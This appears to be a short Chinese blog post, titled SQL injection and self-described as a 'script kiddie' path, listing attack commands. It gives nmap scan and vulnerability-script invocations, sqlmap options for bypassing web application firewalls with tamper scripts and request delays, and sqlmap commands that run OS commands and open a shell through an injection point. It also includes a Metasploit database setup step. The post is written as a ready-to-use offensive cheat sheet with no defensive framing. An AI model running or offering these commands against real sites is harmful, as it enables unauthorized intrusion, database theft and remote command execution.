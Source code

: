 
---
title: "SQL注入"
date: 2018-7-4 12:52:31
categories: SQL注入
tags: 
	- SQL注入
---

**脚本小子之路,嘻嘻嘻**
<!-- more -->


## 0X00 扫描C段,和端口服务信息

>  nmap -sV -sT -Pn --open -v 地址或者IP

## 0X01 简单扫描端口服务信息

>  nmap -sV 地址或者IP

## 0X02 检查是否存在常见漏洞

>  nmap --script=vuln 地址或者IP

## 0X03 sqlmap默认配置

> --batch 从不询问用户输入，使用所有默认配置。

## 0X04 sqlmap绕过WAF

> -v 3 --dbs --batch --tamper "space2morehash.py"

 - space2morehash.py中可以替换space2hash.py或者base64encode.py或者charencode.py 都是编码方式

 - space2hash.py base64encode.py charencode.py

  
## 0X05 SQLMAP伪静态注入(1) 查找数据库

> -u "http://xxx.cn/index.php/Index/view/id/40.html" --dbs

## 0X06 SQLMAP注入点执行命令与交互写shell 

- 此处采用的是Linux系统

> sqlmap -u [url]http://192.168.159.1/news.php?id=1[/url] --os-cmd=ipconfig

- **获取shell**

> sqlmap -u [url]http://192.168.159.1/news.php?id=1[/url] --os-shell

## 0X07 判断网站是否为伪静态

> javascript:alert(document.lastModified)

- 1.弹出的时间和当前时间一样就是静态
- 2.弹出时间和当前时间不一样说明为伪静态

## 0X08 MSF连接数据库启用缓存系统

> 1. service postgresql start 开启数据库服务
> 2. 进入MSF过后,输入db_status查看连接状态
> 3. 重启MSF

## 0X09 sqlmapHTTP请求延迟避免WAF

> --delay  每次http(s)请求之间延迟时间，浮点数，单位为妙，默认无延迟，输入此参数，你会发现每个请求都会延迟3秒，当然数据库还是可以爆出来的。
